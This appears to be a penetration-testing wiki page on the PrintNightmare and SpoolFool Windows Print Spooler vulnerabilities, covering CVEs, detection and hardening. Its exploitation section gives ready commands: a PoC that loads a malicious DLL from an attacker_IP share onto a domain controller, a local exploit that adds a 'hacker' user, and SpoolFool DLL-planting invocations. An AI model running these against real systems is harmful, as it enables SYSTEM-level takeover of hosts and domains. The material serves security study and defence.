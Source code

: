# PrintNightmare (Windows Print Spooler RCE/LPE)

> PrintNightmare is the collective name given to a family of vulnerabilities in the Windows **Print Spooler** service that allow **arbitrary code execution as SYSTEM** and, when the spooler is reachable over RPC, **remote code execution (RCE) on domain controllers and file servers**. The most-widely exploited CVEs are **CVE-2021-1675** (initially classed as LPE) and **CVE-2021-34527** (full RCE). Subsequent issues such as **CVE-2021-34481 (“Point & Print”)** and **CVE-2022-21999 (“SpoolFool”)** prove that the attack surface is still far from closed.

---

## 1. Vulnerable components & CVEs

| Year | CVE | Short name | Primitive | Notes |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Patched in June 2021 CU but bypassed by CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx allows authenticated users to load a driver DLL from a remote share|
|2021|CVE-2021-34481|“Point & Print”|LPE|Unsigned driver installation by non-admin users|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Arbitrary directory creation → DLL planting – works after 2021 patches|

All of them abuse one of the **MS-RPRN / MS-PAR RPC methods** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) or trust relationships inside **Point & Print**.

## 2. Exploitation techniques

### 2.1 Remote Domain Controller compromise (CVE-2021-34527)

An authenticated but **non-privileged** domain user can run arbitrary DLLs as **NT AUTHORITY\SYSTEM** on a remote spooler (often the DC) by:

```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
       -f \
       '\\attacker_IP\share\evil.dll'
```

Popular PoCs include **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) and Benjamin Delpy’s `misc::printnightmare / lsa::addsid` modules in **mimikatz**.

### 2.2 Local privilege escalation (any supported Windows, 2021-2024)

The same API can be called **locally** to load a driver from `C:\Windows\System32\spool\drivers\x64\3\` and achieve SYSTEM privileges:

```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```

### 2.3 SpoolFool (CVE-2022-21999) – bypassing 2021 fixes

Microsoft’s 2021 patches blocked remote driver loading but **did not harden directory permissions**. SpoolFool abuses the `SpoolDirectory` parameter to create an arbitrary directory under `C:\Windows\System32\spool\drivers\`, drops a payload DLL, and forces the spooler to load it:

```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```

> The exploit works on fully-patched Windows 7 → Windows 11 and Server 2012R2 → 2022 before February 2022 updates 

---

## 3. Detection & hunting

* **Event Logs** – enable the *Microsoft-Windows-PrintService/Operational* and *Admin* channels and watch for **Event ID 808** “The print spooler failed to load a plug-in module” or for **RpcAddPrinterDriverEx** messages.
* **Sysmon** – `Event ID 7` (Image loaded) or `11/23` (File write/delete) inside `C:\Windows\System32\spool\drivers\*` when the parent process is **spoolsv.exe**.
* **Process lineage** – alerts whenever **spoolsv.exe** spawns `cmd.exe`, `rundll32.exe`, PowerShell or any unsigned binary .

## 4. Mitigation & hardening

1. **Patch!** – Apply the latest cumulative update on every Windows host that has the Print Spooler service installed.
2. **Disable the spooler where it is not required**, especially on Domain Controllers:
   ```powershell
   Stop-Service Spooler -Force
   Set-Service Spooler -StartupType Disabled
   ```
3. **Block remote connections** while still allowing local printing – Group Policy: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Restrict Point & Print** so only administrators can add drivers by setting the registry value:
   ```cmd
   reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
           /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
   ```
   Detailed guidance in Microsoft KB5005652 

---

## 5. Related research / tools

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules  
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)  
* SpoolFool exploit & write-up  
* 0patch micropatches for SpoolFool and other spooler bugs  

---

**More reading (external):** Check the 2024 walk-through blog post – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## References

* Microsoft – *KB5005652: Manage new Point & Print default driver installation behavior*  
  <https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*  
  <https://github.com/ly4k/SpoolFool>

